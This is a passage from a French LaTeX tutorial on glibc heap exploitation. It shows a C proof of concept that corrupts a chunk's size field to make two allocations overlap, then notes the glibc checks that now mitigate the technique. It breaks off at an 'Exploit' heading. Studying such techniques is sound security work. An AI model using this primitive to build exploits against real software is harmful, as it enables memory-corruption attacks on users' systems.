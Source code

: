 \paragraph{Démonstration par le code :}

\begin{verbatim}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <assert.h>

int main() {
    // 1. Allocation de 3 chunks consécutifs
    long *p1 = malloc(0x80 - 8);
    long *p2 = malloc(0x500 - 8);
    long *p3 = malloc(0x80 - 8);
    malloc(0x10); // Guard chunk

    memset(p1, '1', 0x80 - 8);
    memset(p2, '2', 0x500 - 8);
    memset(p3, '3', 0x80 - 8);
    
    // 2. Vulnérabilité : Overflow modifiant la taille de p2
    // On l'augmente à 0x581 pour englober p3 (0x500 + 0x80 | PREV_INUSE).
    *(p2 - 1) = 0x581; 

    // 3. Libération de p2 avec sa nouvelle taille corrompue
    free(p2);

    // 4. Réallocation couvrant la zone corrompue
    // p4 pointera sur l'ancienne adresse de p2 et englobera p3.
    long *p4 = malloc(0x580 - 8);

    // p4 et p3 se chevauchent (deux pointeurs sur la même zone).
    memset(p4, '4', 0x580 - 8);
    memset(p3, '3', 80);

    // Vérifie que les données écrites dans p3 se retrouvent bien dans p4
    assert(strstr((char *)p4, (char *)p3));
    
    return 0;
}
\end{verbatim}

\paragraph{Limitations et renforcement de la GLIBC :}
La technique a été mitigée par l'ajout de vérifications strictes d'intégrité lors de la manipulation des chunks. Actuellement, la GLIBC s'assure que le chunk suivant (calculé avec la nouvelle taille étendue) a bien son bit \texttt{PREV\_INUSE} ou correspond bien aux alignements prévus, et procède à des vérifications de correspondance entre la taille annoncée et le champ \texttt{prev\_size}. Créer les bonnes conditions demande de maîtriser la structure environnante de la mémoire.

\subsection{Exploit}

